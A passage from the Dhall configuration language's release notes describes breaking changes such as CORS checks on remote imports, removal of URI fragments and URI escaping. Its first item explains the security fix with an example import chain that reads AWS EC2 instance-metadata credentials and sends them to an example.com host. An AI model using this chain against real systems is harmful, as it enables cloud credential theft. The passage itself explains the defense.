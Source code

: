     For example, a simple way to exploit an AWS EC2 instance before this change
    is to ask the instance to interpret `https://example.com/malicious`, where:

    * `https://example.com/malicious` imports `https://example.com/recordsHeaders using https://example.com/stealCredentials`
    * `https://example.com/stealCredentials` contains

      ```haskell
      [ { header = "Credentials"
        , value = http://169.254.169.254/latest/meta-data/iam/security-credentials/role as Text
        }
      ]
      ```

    This is a breaking change because now the import of `http://169.254.169.254`
    would be rejected, as the response would not include an `Access-Control-Allow-Origin` 
    header permitting itself to be transitively imported.

    Similarly, this change protects against an external internet import from
    triggering an interpreter request against a potentially sensitive intranet
    endpoint unless that intranet endpoint had enabled CORS whitelisting that
    external domain.

*   [Remove support for fragment identifiers](https://github.com/dhall-lang/dhall-lang/pull/406)

    Fragment identifiers are not useful for remote imports since:

    * They don't affect import resolution because:
        * They are not used to resolve the host
        * They are not transmitted to the host as part of the path to fetch
        * More generally, fragments are required by
          [RFC 3986](https://tools.ietf.org/html/rfc3986#section-3.5) to be
          interpreted client-side (if at all)
    * They don't identify any "sub-section" of a Dhall expression to fetch
    
    Therefore, we remove support for them in the grammar and the binary encoding.

    This is a breaking change to the binary encoding, although this does not
    affect semantic integrity checks because they are fully resolved and
    therefore don't include imports.

*   [Unescape unquoted URI path components](https://github.com/dhall-lang/dhall-lang/pull/489)

    With this change all unquoted URI paths will be unescaped on parsing, and
    all URI components will be escaped before importing.
    
    This changes the binary encoding, e.g. the following expressions used to encode
    to the same bytes, but now don't:
    * `https://example.com/a%20b/c`
    * `https://example.com/"a%20b"/c`

*   [Simplify text concatenation normalization](https://github.com/dhall-lang/dhall-lang/pull/497)

    From now on, the "text concatenation" operator is interpreted as two 
    interpolations together:

    ```
    "${l}${r}" ⇥ s₀
    ─────────────────────
    l ++ r ⇥ s₀
    ```

